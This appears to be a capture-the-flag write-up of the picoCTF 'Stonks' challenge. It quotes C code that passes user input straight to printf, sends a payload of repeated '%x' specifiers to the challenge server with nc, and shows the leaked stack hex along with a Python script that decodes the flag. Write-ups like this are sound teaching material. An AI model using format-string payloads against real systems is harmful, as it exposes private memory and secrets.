 # URL
https://play.picoctf.org/practice/challenge/105?category=6&page=3

# Challenge
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure!

# Work
* Looking at the code, something already stands out
```
char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);
```
* In the code above, the compiler warns us "format not a string literal and no format arguments [-Wformat-security]"
* This means user_buf can include format specifiers like %x, %s, or %n, which printf will interpret directly — potentially allowing us to read memory or crash the program. -> click here to learn more about this [https://owasp.org/www-community/attacks/Format_string_attack]
* For my payload, I decided to use %x -> read stack data.
```
{ echo 1; python3 -c "print('%x' * 30)" ; } | nc mercury.picoctf.net 20195
```
* Sends 1 to select Buy some stonks!, inputs 30 %x format specifiers as the "API token"
* The server prints back stack contents as hexadecimal values, which confirms that a format string vulnerability exists.
```
93b0390804b00080489c3f7eefd80ffffffff193ae160f7efd110f7eefdc7093af180193b037093b03906f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3534303664303664ff92007df7f2aaf8f7efd440b5e7990010f7d8cce9
```
* The output pasted on RapidTables yields
* <img width="692" height="87" alt="image" src="https://github.com/user-attachments/assets/ebdeeb37-a026-4834-a68a-6eec8034180c" />
* I removed the clutter, which resulted in:
* <img width="740" height="492" alt="image" src="https://github.com/user-attachments/assets/1598c85d-ff39-4f8f-9dcd-81488045d722" />
* Split each output into 4-byte chunks (eg, 6f636970)
```
6f636970
7b465443
306c5f49
345f7435
6d5f6c6c
306d5f79
5f79336e
35343036
64303664
007d
```
* Create a script that takes these inputs and reverses them (change from little endian to big endian)
```
string = []
string = ['6f636970','7b465443',
'306c5f49',
'345f7435',
'6d5f6c6c',
'306d5f79',
'5f79336e',
'35343036',
'64303664',
'007d']

# Convert each hex string to bytes, reverse the bytes, and collect
reversed_bytes = b''.join(bytes.fromhex(s)[::-1] for s in string)

# Decode to ASCII
decoded = reversed_bytes.decode()

print(decoded)
```
* Compile and it will print the flag!

